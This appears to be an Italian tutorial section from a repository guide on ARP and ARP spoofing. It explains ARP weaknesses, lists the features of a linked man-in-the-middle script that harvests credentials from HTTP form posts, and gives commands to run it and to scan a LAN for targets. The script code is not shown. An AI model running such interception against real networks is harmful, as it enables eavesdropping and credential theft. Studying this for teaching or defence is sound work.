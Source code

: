 #### Cos'è ARP (Address Resolution Protocol)
- **Funzione**: Mappa indirizzi IP → MAC address nella rete locale (LAN)
- **Meccanismo**: Quando un host vuole comunicare con un IP, invia broadcast ARP "Chi ha questo IP?"
- **Risposta**: L'host con quell'IP risponde con il suo MAC address
- **Cache**: Il MAC viene salvato nella ARP table per uso futuro

#### Vulnerabilità Intrinseche di ARP
1. **Stateless Protocol**: Nessuna verifica dell'identità
2. **Broadcast Domain**: Tutti nella LAN ricevono pacchetti ARP
3. **Cache Poisoning**: Accetta aggiornamenti ARP senza autenticazione
4. **Trust-based**: Si fida di qualsiasi risposta ARP ricevuta

### ARP Spoofing Implementation

#### Installazione Dipendenze
```bash
# Installa Scapy per Python
pip install scapy --break-system-packages

# Verifica installazione
python3 -c "import scapy.all as scapy; print('Scapy OK')"
```

#### Script ARP Spoofer

**📄 Script completo**: [`scripts/networking/mitm_spoofer.py`](../../scripts/networking/mitm_spoofer.py)

**Funzionalità principali**:
- ARP spoofing bidirezionale (target ↔ gateway)
- Intercettazione traffico HTTP in tempo reale
- Estrazione automatica credenziali da form POST
- IP forwarding e configurazione iptables automatica
- Cleanup completo all'interruzione

**Uso**:
```bash
# Sintassi base
sudo python3 scripts/networking/mitm_spoofer.py <target_ip> <gateway_ip> [interface]

# Esempio pratico
sudo python3 scripts/networking/mitm_spoofer.py 192.168.1.100 192.168.1.1 wlan0
```

### Network Discovery Pre-Attack

#### Scoprire Target e Gateway
```bash
# Identifica la tua interfaccia di rete
ip addr show

# Trova il gateway predefinito  
ip route show | grep default
# Output: default via 192.168.1.1 dev wlan0

# Scansiona la rete locale
netdiscover -r 192.168.1.0/24
# O alternativamente:
nmap -sn 192.168.1.0/24
```
